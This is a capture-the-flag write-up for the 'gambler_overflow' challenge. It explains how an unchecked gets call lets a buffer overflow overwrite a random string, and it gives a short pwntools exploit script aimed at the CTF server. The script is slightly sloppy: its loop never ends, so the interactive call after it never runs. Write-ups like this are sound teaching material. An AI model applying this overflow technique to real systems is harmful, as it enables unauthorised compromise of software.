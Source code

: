 ## Question 

Feeling luuuuuuuucky?

You must create a flag.txt in the same folder as the binary for it to run.
nc ctf.b01lers.com 9203

Author: robotearthpizza
Difficulty: Easy 

[gambler_overflow](gambler-baby2) 


## Solution

The binary uses ```gets```, which we can abuse to overflow the local variable containing the random string.

```
0000158d          printf(format: "Guess me a string of length 4 wi…")
0000159e          gets(buf: &var_20)
000015b6          printf(format: "Your guess: %s\n", &var_20)
```

```python
from pwn import *

p = process('./gambler-baby2')
p = remote('ctf.b01lers.com', 9203)

while (True):
    data = b'A\0'*8+b'A\0'*8
    p.sendline(data)
    print(p.recvline())

p.interactive()
```

